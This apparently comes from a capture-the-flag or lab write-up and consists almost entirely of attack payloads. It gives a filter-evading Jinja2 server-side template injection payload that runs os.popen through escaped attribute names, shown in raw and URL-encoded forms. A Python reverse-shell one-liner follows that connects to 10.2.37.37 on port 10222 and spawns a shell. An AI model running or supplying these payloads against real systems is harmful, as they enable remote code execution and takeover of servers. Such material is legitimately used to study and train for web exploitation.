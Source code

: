 ```powershell
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D
```

![image.png](image%2015.png)

**RAW PAYLOAD:**

```powershell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

**ENCODED PAYLOAD:**

```powershell
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D
```

> **Reverse Shell Phase**
> 

`nano pythonreverse.txt`

```powershell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.37.37",10222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

